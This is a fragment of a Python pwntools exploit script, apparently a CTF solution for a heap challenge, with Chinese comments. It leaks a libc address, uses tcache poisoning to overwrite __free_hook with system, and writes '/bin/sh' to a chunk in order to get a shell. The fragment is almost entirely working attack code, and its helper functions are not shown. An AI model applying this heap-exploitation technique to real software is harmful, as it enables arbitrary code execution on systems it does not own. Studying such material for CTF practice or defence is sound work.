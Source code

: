 ```python
add(5,'111')
add(6,'111')
add(7,'111')
add(8,'')
show(8)#泄露libc地址

#传统劫持tache，任意地址写
addr=(u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')))
log.info(hex(addr))
malloc_hook=addr+0x26
log.info(hex(malloc_hook))
free(3)
free(1)
free(8)
x=finder('__malloc_hook',malloc_hook)
add(8,'t'*0xe0+p64(x.dump('__free_hook')))
add(1,'/bin/sh\x00')
add(3,p64(x.dump('system')))
debug()

p.interactive()
```

